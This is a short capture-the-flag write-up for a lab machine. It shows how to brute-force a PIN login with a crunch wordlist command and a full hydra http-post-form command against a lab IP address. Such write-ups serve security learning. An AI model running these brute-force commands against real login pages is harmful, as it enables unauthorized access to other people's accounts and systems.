 # Hydra is Coming to Town

## Solution
- Hit "Start Machine" and connect at http://IP:8000/.

![Alt text](image.png)

- Notice the password is 3 characters at most and the characters list is [0,1,2,3,4,5,6,7,8,9,A,B,C,D,E,F].
- Generate a password list with crunch considering all the possible combinations from 1 to 3 characters.
```bash
crunch 1 3 0123456789ABCDEF -o pass.txt
```
- Inspect the login HTTP Post request with Owasp Zap.

![Alt text](image-1.png)

- Run hydra to bruteforce the pin code.
```bash
hydra -l '' -P pass.txt 10.10.153.120 -s 8000 http-post-form "/login.php:pin=^PASS^:Access denied" -t 32 -v
```

![Alt text](image-3.png)

- Click "Lock Door" to get the flag.

![Alt text](image-2.png)
